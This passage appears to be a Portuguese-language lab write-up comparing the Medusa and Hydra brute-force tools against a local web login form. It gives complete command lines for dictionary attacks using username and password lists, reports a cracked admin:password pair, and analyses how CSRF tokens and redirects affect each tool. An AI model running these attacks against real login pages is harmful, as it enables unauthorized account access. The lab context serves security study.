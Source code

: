 

### Comparação Entre Ferramentas

| Aspecto | Medusa | Hydra |
|---------|---------|--------|
| **Manutenção de Sessão** | ❌ Não mantém | ❌ Não mantém |
| **Tokens CSRF** | ❌ Não manipula | ❌ Não manipula |
| **Redirecionamentos** | ❌ Não segue | ✅ Segue |
| **Detecção de Sucesso** | ❌ Limitada | ✅ Flexível |
| **Velocidade** | ⚡ Muito rápida | 🐢 Mais lenta |

### Testes com Múltiplos Usuários

**Comandos Hydra com Lista de Usuários:**
```bash
hydra -L usernames.txt -P passwords.txt 127.0.0.1 http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" \
  -vV -s 42001
```

```bash
#Comando em uma linha
hydra -L usernames.txt -P passwords.txt 127.0.0.1 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -vV -s 42001
```

**Resultado:**
- **Sucesso**: `admin:password`
- **Falha**: Todos os outros usuários
- **Tempo**: Aproximadamente 30 segundos para 56 combinações

---

## 8. Análise Detalhada dos Resultados

### Comparação Técnica Aprofundada

#### Comportamento com CSRF Ativo

**Medusa com CSRF Ativo:**
```bash
# Comando executado
medusa -h 127.0.0.1 -U usernames.txt -P passwords.txt -M web-form \
  -m FORM:"/login.php" -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=&password=&Login=Login" -n 42001 -v 4

# Comportamento observado
- Conexão estabelecida com sucesso
- Resposta HTTP 302 recebida
- Não consegue detectar "Login failed" (não segue redirect)
- Falha em todas as tentativas
- Taxa de sucesso: 0%
```
